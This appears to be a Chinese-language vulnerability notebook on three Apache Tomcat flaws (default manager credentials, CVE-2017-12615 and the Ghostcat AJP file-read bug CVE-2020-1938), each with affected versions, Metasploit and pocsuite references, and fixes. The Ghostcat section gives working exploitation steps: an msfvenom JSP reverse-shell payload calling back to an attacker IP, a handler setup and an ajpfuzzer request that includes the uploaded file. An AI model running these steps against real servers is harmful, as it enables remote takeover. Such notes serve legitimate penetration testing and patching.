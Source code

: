 # tomcat
## 弱口令漏洞
### 漏洞说明
1. tomcat默认开启的manger 界面中，默认的用户名密码为tomcat:tomat
- manager（后台管理）
- manager-gui 拥有html页面权限
- manager-status 拥有查看status的权限
- manager-script 拥有text接口的权限，和status权限
- manager-jmx 拥有jmx权限，和status权限
2. host-manager（虚拟主机管理）
- admin-gui 拥有html页面权限
- admin-script 拥有text接口权限

### 影响范围
/
### 验证方法
poc_tomcat_weakpass.py

### 利用方法

**手工利用**:登录tomcat管理后台，上传包含恶意程序的war包，获取tomcat用户权限。
**msfconsole**:`exploit/multi/http/tomcat_mgr_upload`

### 修复方法
1、修改conf/tomcat-users.xml文件中的默认用户名和密码，设置密码为强口令。
1、在系统上以低权限运行Tomcat应用程序。创建一个专门的 Tomcat服务用户，该用户只能拥有一组最小权限（例如不允许远程登录）。

2、增加对于本地和基于证书的身份验证，部署账户锁定机制（对于集中式认证，目录服务也要做相应配置）。在CATALINA_HOME/conf/web.xml文件设置锁定机制和时间超时限制。


## tomcat命令执行漏洞 CVE-2017-12615
### 漏洞说明
在tomcat中启用put方法会导致任意文件可以上传，从而导致服务器权限被获取。
### 影响范围
Apache Tomcat 7.0.0 – 7.0.79
### 验证方法
**pocsuite**:poc_tomcat_cmdexec

### 利用方法

### 修复方法
1、配置readonly值为True或注释参数，禁止使用PUT方法并重启tomcat。
注意：如果禁用PUT方法，对于依赖PUT方法的应用，可能导致业务失效。

2、根据官方补丁升级最新版本。

## tomcat ajp协议任意文件读取漏洞 cve-2020-1938

### 漏洞说明
由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。
### 影响范围
**受影响版本**
- Apache Tomcat 6
- Apache Tomcat 7 < 7.0.100
- Apache Tomcat 8 < 8.5.51
- Apache Tomcat 9 < 9.0.31

**不受影响版本**
- Apache Tomcat = 7.0.100
- Apache Tomcat = 8.5.51
- Apache Tomcat = 9.0.31

### 验证方法
**pocsuite**:`poc_tomcat_ajp_read`

### 利用方法

**RCE**:
1. 使用 msf 生成反弹 shell 马，并且监听
```bash

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.223.129 LPORT=6666 R > shell.png

假设利用上传点，把此图片上传到了目标服务器 / log/shell.png。

在 msf 监听：

msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp

payload => java/jsp_shell_reverse_tcp

msf exploit(multi/handler) > set lhost 192.168.223.129

lhost => 192.168.223.129

msf exploit(multi/handler) > set lport 6666

lport => 6666

msf exploit(multi/handler) >exploit
```
2. 发送 AJP 包，获取 shell

使用 AJP 包构造工具来发送 ajp 包，以 ajpfuzzer 为例：

运行：`java -jar ajpfuzzer_v0.6.jar`

连接目标端口：`connect 192.168.223.1 8009`

执行以下命令：
```shell
forwardrequest 2 "HTTP/1.1" "/123.jsp" 192.168.223.1 192.168.223.1 porto 8009 false "Cookie:AAAA=BBBB","Accept-Encoding:identity" "javax.servlet.include.request_uri:/","javax.servlet.include.path_info:log/shell.png","javax.servlet.include.servlet_path:/"
```
![](/Users/seven/Desktop/pocs/midware/tomcat/tomcat.assets/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1NvdXRoV2luZDA=,size_16,color_FFFFFF,t_70.png)



可以看到，请求发送成功后，shell.png 被作为 jsp 解析，成功获取目标服务器的 shell。



![](/Users/seven/Desktop/pocs/midware/tomcat/tomcat.assets/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1NvdXRoV2luZDA=,size_16,color_FFFFFF,t_70-20200810174750806.png)

### 修复方法

目前官方已在最新版本中修复了该漏洞，请受影响的用户尽快升级版本进行防护，官方下载链接：

| 版本号                | 下载地址                                 |
| --------------------- | ---------------------------------------- |
| Apache Tomcat 7.0.100 | http://tomcat.apache.org/download-70.cgi |
| Apache Tomcat 8.5.51  | http://tomcat.apache.org/download-80.cgi |
| Apache Tomcat 9.0.31  | http://tomcat.apache.org/download-90.cgi |



如果相关用户暂时无法进行版本升级，可根据自身情况采用下列防护措施。

一:若不需要使用Tomcat AJP协议，可直接关闭AJP Connector，或将其监听地址改为仅监听本机localhost。

具体操作：

（1）编辑 <CATALINA_BASE>/conf/server.xml，找到如下行（<CATALINA_BASE> 为 Tomcat 的工作目录）：

```
<Connector port="8009"protocol="AJP/1.3" redirectPort="8443" />
```

![img](/Users/seven/Desktop/pocs/midware/tomcat/tomcat.assets/image-4.png)

（2）将此行注释掉（也可删掉该行）：

```
<!--<Connectorport="8009" protocol="AJP/1.3"redirectPort="8443" />-->
```

（3）保存后需重新启动Tomcat，规则方可生效。

